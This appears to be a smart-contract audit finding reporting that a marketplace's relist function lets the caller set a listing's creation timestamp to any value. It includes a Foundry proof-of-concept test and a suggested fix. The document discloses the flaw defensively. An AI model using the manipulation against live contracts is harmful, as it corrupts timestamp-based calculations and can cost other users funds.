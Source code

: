 Quaint Infrared Giraffe

Medium

# `Listing.created` can be manipulated upon a relist

### Summary

It is very important that `Listing.created` is always the `block.timestamp` of the time a listing was created, modified or relisted as the varaible is used to calculate many sensitive information in the protocol. However, there is no enforcement of this in `Listing::relist`, as when compared to `Listing::createListings` which enforces that the variable is updated in `Listing::_mapListings`

### Root Cause
`Listing.created` can be any value even a future date

### Impact

All calculations which relies on `listing.created` will all be wrong.

### PoC

```
    function test_POC() public {
        vm.warp(1726132652);
        address _owner = makeAddr("owner");
        uint _tokenId;
        uint16 _floorMultiple = 200;
        erc721a.mint(_owner, _tokenId);

        vm.prank(_owner);
        erc721a.setApprovalForAll(address(listings), true);

        Listings.Listing memory listing = IListings.Listing({
            owner: payable(_owner),
            created: uint40(block.timestamp),
            duration: 7 days,
            floorMultiple: _floorMultiple
        });
       
        // Create our listing
        vm.prank(_owner);
        _createListing({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: listing
            })
        });

        ICollectionToken token = locker.collectionToken(address(erc721a));

        address _relister = makeAddr("_relister");

        uint startBalance = 2 ether;
        deal(address(token), _relister, startBalance);

        vm.startPrank(_relister);
        token.approve(address(listings), startBalance);
        listings.relist({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: IListings.Listing({
                    owner: payable(_relister),
                    created: uint40(block.timestamp) / 2,
                    duration: 5 days,
                    floorMultiple: _floorMultiple
                })
            }),
            _payTaxWithEscrow: false
        });
        vm.stopPrank();

        IListings.Listing memory _listing = listings.listings(address(erc721a), _tokenId);

        assertEq(_listing.created, uint40(block.timestamp) / 2, 'Invalid created');
     }
```

### Mitigation

Enforce that `listing.created` in `Listing:relist` is any `block.timestamp` the function is called.